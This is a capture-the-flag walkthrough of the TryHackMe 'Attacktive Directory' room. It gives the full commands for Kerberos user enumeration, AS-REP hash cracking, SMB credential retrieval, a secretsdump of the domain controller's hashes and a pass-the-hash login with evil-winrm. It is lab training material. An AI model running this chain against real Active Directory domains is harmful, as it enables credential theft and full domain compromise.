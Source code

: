 *2021-09-11*

*kimm3*

# Walkthrough: Attacktive Directory
Platform: TryHackMe

Difficulty: Medium

- [Link](https://tryhackme.com/room/attacktivedirectory)

## Setup
![ll](assets/markdown-img-paste-20210826112245589.png)

```
script history/enum1
export IP=10.10.97.47
```

(Machine responds to ICMP echo)
## Scans and enumeration
`sudo nmap $IP -p- -A -Pn -v -oA scans/nmap-init`

![nmap-init](assets/markdown-img-paste-20210911131108435.png)

That's alot of ports. Looks lik a WS Domain controller.

![index-p80](assets/markdown-img-paste-20210911131237197.png)

Standard IIS page at port 80.

Since kerberos is activated, let's try to enumerate users.

![etchosts](assets/markdown-img-paste-20210911131700561.png)

```
kerbrute userenum --dc AttacktiveDirectory.spookysec.local -d spookysec.local xato-net-10-million-usernames.txt
```

![kerbrute](assets/markdown-img-paste-20210911133732785.png)

(There is one user that dosen't exist in any SecList wordlist, svc-admin. The room provides a custom wordlist for this to make it easier.)

![svc-admin-asrep](assets/markdown-img-paste-20210911134805621.png)

User 'svc-admin' did not have preauth enabled so we got a hash.

![svc-admin-hashcat](assets/markdown-img-paste-20210911134948456.png)

Cracked quite easily. Let's try to connect to smb with this.

![smb-svc-admin](assets/markdown-img-paste-2021091113550025.png)

![smb-backupcredstxt](assets/markdown-img-paste-20210911135542497.png)

We retrive a text file.

![backupcredstxt](assets/markdown-img-paste-20210911135655992.png)

Text file contains encoded credentials to the backup user. If this backup user is used to backup the dc, it has access to the NTDS database and password hashes.

`python3 secretsdump.py spookysec.local/backup:backup2517860@AttacktiveDirectory.spookysec.local -outputfile ../../scans/secretsdump`

## Foothold/Exploit
We don't need to crack these hashes, we just use pass the hash to login.

`evil-winrm -i $IP -u Administrator -H 0e0363213e37b94221497260b0bcb4fc`

![evilwinrm-login](assets/markdown-img-paste-20210911140952672.png)

The flags are at the users desktops.

![flags](assets/markdown-img-paste-20210911141437128.png)
